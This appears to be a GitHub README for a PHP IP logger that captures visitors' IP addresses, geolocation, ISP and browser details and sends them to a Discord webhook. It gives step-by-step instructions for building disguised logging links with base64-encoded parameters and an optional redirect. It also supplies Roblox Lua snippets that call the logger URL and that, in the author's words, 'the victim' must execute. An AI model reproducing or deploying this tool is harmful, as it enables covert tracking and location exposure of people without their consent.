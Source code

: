 # Webhook-IP-Logger
This is a PHP IP logger I made that sends the IP's to a Discord webhook.  
![Showcase with bot filtering turned off](https://vgy.me/MiiQN2.png)
# Features
- Grabs the IP then gets info about it after that it sends it to a webhook you have entered.  
- Gets Geo Location & ISP aswell as the browser  
- Filters out bots  
- ROBLOX Lua script for it (for exploits that have HttpGet or ROBLOX Studio)  
- My site has a script incase you don't have a site
# How to use without a website
Step 1: Go into the settings of your Discord server, click webhooks and create one then copy the link to it.  
Step 3: Remove https://discordapp.com/api/webhooks/  
Step 3: Encode it in Base64  
Step 5: Add it to the end of https://littest.site/yeet/site.php?h=  
Step 6: [Optional] If you want to redirect to a site add &r= then a website(make sure to encode it in base64)  
**[Example]**  
https://littest.site/yeet/site.php?h=aG9vaw==&r=aHR0cHM6Ly9saXR0ZXN0LnNpdGU=  
**[Base64 Encoding]**  
I would reccomend using this site. https://www.base64encode.org/
# How to use it on ROBLOX
Step 1: Complete the tutorial above on getting an IP logger link, unless you have your own site.  
Step 2: Put the link of the IP logger in between the qoutations. Exploits is for a script that will only work on  
**Note: The victim will need to execute these scripts. Executing this yourself will only get your own IP.**  
**[Exploits]**  
```lua
game:HttpGet("Site Here")
```
**[Roblox Studio]**  
```lua
game:GetService("HttpService"):GetAsync("Site Here")
```
**[Example]**  
```lua
game:HttpGet("https://littest.site/yeet/site.php?h=aG9vaw==")```
